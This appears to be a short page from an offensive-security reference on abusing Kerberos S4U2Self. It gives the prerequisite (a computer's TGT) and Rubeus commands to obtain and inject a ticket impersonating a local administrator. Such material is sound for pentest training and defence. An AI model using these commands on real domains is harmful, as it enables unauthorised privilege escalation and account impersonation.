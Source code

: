 # S4U2Self
---

## Vulnerability

If you manage to get the Kerberos TGT - for example by [extrating credentials](/windows/credentials/) - of a domain computer, you can abuse S4U2Self (Service for User to Self) to obtain the TGS of a user who is local administrator.

## Prerequisites

* Having the Kerberos TGT of a domain computer.

## Exploit

Using [Rubeus](https://github.com/GhostPack/Rubeus) with `/self` option.

```powershell
# Obtain the TGS.
.\Rubeus.exe s4u /impersonateuser:$username /self /altservice:$service/$target /user:$hostname$ /ticket:$TGTBase64EncodedTicket /nowrap

# Inject it in a dummy session.
.\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:$domain /username:$username /password:$whatever /ticket:$TGSBase64EncodedTicket
```